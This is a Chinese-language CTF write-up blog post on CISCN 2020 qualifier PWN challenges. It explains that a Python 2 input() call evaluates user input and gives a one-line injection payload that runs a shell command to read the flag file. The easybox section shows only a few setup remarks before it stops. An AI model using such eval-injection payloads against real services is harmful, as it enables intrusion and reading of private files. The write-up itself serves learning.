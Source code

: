 ```yaml
---
layout:     post
title:      ciscn 初赛 2020
subtitle:   write up
date:       2020-08-21
author:     X1ng
header-img: ciscn初赛2020.jpg
catalog: true
tags:
    - ciscn2020
    - wp

---
```


也是很久没做堆题了，一道堆题要肝好长时间才能肝出来or2

就当作学习一波吧

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghyl8dm754j307606igm0.jpg)

## PWN

### babyjsc

附件完全看不懂，但是nc连接服务器

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghy7ytf1szj30o805q0up.jpg)

>python2里的`input`，相当于`eval(raw_input())`
>
>然后就没有然后了
>
> 来自[CBCTF Misc和部分Web Writeup](https://zhuanlan.zhihu.com/p/164896822)

payload：

```
__import__("os").popen("cat /home/ctf/flag").read()
```

### easybox

开始没搞清楚题目环境，在tcache下搞了很久才发现是libc-2.23.so

例行检查

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghy8atsccfj30j005w3zp.jpg)

主要函数

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghy8b0siu5j31ha0s8dhe.jpg)
